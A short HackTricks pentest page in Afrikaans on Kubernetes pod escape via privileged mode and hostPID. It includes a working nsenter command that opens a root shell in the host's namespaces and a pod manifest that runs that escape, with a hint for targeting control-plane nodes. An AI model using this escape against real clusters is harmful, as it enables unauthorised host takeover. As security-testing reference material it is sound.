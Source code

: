 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privileged and hostPID

Met hierdie voorregte sal jy **toegang hê tot die gasheer se prosesse** en **genoeg voorregte hê om binne die naamruimte van een van die gasheer se prosesse te gaan**.\
Let daarop dat jy moontlik nie voorregte nodig het nie, maar net 'n paar vermoëns en ander potensiële verdedigingsoortredings (soos apparmor en/of seccomp).

Net om iets soos die volgende uit te voer, sal jou toelaat om uit die pod te ontsnap:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Konfigurasie voorbeeld:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command:
[
"nsenter",
"--target",
"1",
"--mount",
"--uts",
"--ipc",
"--net",
"--pid",
"--",
"bash",
]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{{#include ../../../banners/hacktricks-training.md}}
